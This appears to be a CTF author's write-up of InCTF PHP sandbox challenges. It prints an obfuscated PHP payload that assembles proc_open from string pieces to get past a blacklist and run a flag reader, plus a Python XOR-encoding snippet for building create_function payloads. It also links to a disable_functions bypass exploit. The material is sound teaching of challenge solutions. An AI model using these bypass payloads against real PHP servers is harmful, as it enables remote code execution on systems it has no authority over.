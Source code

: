 ### PHP+1.5
Here the blacklist check was being done, but no check on length of input. So again:
```
$x=(ch).(r);$k=$x(95);$l=$x(47);$a=(pr).(oc).$k.(op).(en);$b=($l.readFlag);$c=(p).(i).(pe);$d=r;$e=w;$f=(p).(i).(pes);$g=(pri).(nt).$k.(r);$h=(str).(eam).$k.(ge).(t).$k.(con).(tents);$i=(arra).(y).$k.(sh).(ift);$j=(arra).(y).$k.(sl).(ice);$z=$a($b,array(array($c,$d),array($c,$e),array($c,$e)),$$f);$g($h($i($j($$f,1,2))));
```
### PHP+2
In this challenge the `proc_open` was blocked. This challenge was based on 1day exploit, you can see the actual PoC [here](https://bugs.php.net/bug.php?id=77843).<br> You can also get the exploit code [here](https://github.com/mm0r1/exploits/tree/master/php-json-bypass) (Thanks to OpenToAll for this). OpenToAll was the only team to solve this challenge.

If you are wondering how we can put this big file under the given condition of length constraint, here is the snippet:
```python
def e(s):
    return ''.join([chr(ord(c) ^ 0xff) for c in s]) + '^' + '\xff' * len(s)

p = '$p=%s;' % e('_POST')
p += '$l=%s;$n=%s;$m=$n(%s,$l($$p));$m();' % (e('current'), e('create_function'), e('$x'))
```

### PHP+2.5
In this challenge `prroc_open` was unblocked. The intended solution was to find a Segmentation Fault, and using that upload the file and using Race-Condition get the shell.  
If you are not familiar with this, RCE through Segfault+LFI, you can read [this blog](https://spyclub.tech/2018/12/21/one-line-and-return-of-one-line-php-writeup/).  
As of my PoC, you can visit to this [bug](https://bugs.php.net/bug.php?id=78583).  

The unintended solution was to find a working payload which is less than 100 length and that we found in PHP+2 itself.


I hope you get fun solving my InCTF challenges and may this blog help you to understand the challenge solutions.

